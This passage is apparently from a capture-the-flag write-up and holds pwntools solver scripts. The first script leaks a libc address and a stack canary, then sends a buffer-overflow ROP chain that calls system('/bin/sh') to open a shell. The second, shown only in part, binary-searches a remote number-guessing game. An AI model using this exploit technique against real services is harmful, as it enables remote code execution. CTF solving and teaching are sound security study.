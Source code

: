 ```python
def eventHunt():
    r.sendlineafter(">>> ",b"1")
    r.sendlineafter(">>> ",b"1")
    r.sendlineafter(">>> ",b"3")
def eventCall():
    for i in range(7):
        r.sendlineafter(">>> ",b"1")
        r.sendlineafter(">>> ",b"2")
        r.sendlineafter(">>> ",b"3")
eventHunt()
r.sendlineafter(">>> ",b"45")
r.recvuntil(". [")
libc=u64(r.recvn(6).ljust(8,b'\x00'))-lib.sym['clone']
libc&=~0xff
slog("libc",libc)
eventHunt()
r.sendlineafter(">>> ",b"41")
r.recvuntil(". [")
canary=u64(r.recvn(8))
slog("canary",canary)
eventCall()
r.sendlineafter(">>> ",b"0")
prdi=next(lib.search(asm("pop rdi;ret")))+libc
binsh=next(lib.search(b"/bin/sh"))+libc
system=libc+lib.sym['system']
pay=b'x'*(0x58)
pay+=p64(canary)
pay+=p64(0)
pay+=p64(prdi)
pay+=p64(binsh)
pay+=p64(prdi+1)
pay+=p64(system)
r.sendlineafter(">>> ",pay)
r.interactive()
```

---

# `misc`

---

## UDgame

```python
from pwn import *

r=remote("52.79.50.189",4321)
context.log_level='debug'
r.recvuntil("> ")
r.sendline("y")
low=1
high=1000000000000
guess=1000000000000//2
prev=guess
while(1):
    mid=(low+high)//2
    r.sendlineafter("write your guess :",str(mid).encode())
    out=r.recvline()
    print(mid)
    if b"DOWN" in out:
        print("DOWN")
```